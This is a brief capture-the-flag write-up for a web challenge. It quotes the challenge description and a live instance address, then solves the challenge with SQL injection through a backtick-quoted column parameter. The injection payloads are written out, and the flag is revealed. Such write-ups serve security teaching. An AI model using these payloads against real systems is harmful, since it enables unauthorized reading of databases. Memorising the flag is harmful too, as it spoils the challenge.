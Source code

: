 # Writeup
```
I've created a new website so you can do all your important management. It includes users, creating things, reading things, and... well, not much else. Maybe there's a flag?

Second instance running at 52.90.229.46:8558

    tpctf{san1t1z3_y0ur_1npu7s} is not the correct flag. Look harder ;)

    Note: the flag format is flag{}, not the usual tpctf{}

    Author: Kevin Higgs

```
# Solve
This is a normal query: ```SELECT `1` FROM users WHERE name = 'custom-kevin';```

There are three parameters: `number`, `value` and `action`

We will inject into `number` parameter and try to display name of users

payload: ```name` FROM users LIMIT 1 OFFSET 0-- -```
and we get `custom-Hi`, let try another
payload: ```name` FROM users LIMIT 1 OFFSET 1-- -``` and we got the flag

# Flag
flag{aLW4ys_ESC4PE_3v3rYTH1NG!!!!!}
